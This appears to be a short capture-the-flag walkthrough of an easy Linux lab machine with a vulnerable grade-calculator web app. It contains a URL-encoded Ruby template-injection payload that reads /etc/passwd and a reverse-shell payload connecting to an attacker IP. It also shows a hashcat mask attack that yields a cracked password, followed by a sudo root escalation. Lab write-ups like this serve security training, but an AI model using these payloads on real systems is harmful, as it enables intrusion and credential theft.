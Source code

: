 #easy #linux #ssti #encoding #hashcat-mask 

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-07 07:45 CST
Nmap scan report for 10.129.229.121
Host is up (0.0034s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.66 seconds

```

# /weighted-grade has a calculator functionality that's vulnerable to SSTI 

# Category column accepts alphanumeric input 

# '%=' needs to be encoded to execute arbitrary codes without error %0a is an encoded version of a line feed \n or newline, 

```shell
test%0a<%25%3d+File.open('/etc/passwd').read+%25>
```

# The input needs to have a text to avoid errors, and \n or %0a to render the payload on a newline 

# Reverse shell payload
https://stackoverflow.com/questions/52062703/ruby-one-liner-breakdown

```
test%0a<%25%3d+c=TCPSocket.new('10.10.14.84','4444');while(cmd=c.gets);IO.popen(cmd,'r'){|io|c.print io.read}end+%25>

```


# database file found on ../Migrations/pupilpath_credentials.db

# read a mail from /var/mail which mentions that the password of the user uses this format firstname_reverse-fname_random-numbers

# used the -a 3 option in hashcat which is brute force 

```shell
hashcat -m 1400 -a 3 password.txt susan_nasus_?d?d?d?d?d?d?d?d?d
```

susan:susan_nasus_413759210

# susan is a member of sudo group,

```
sudo /bin/bash -p
```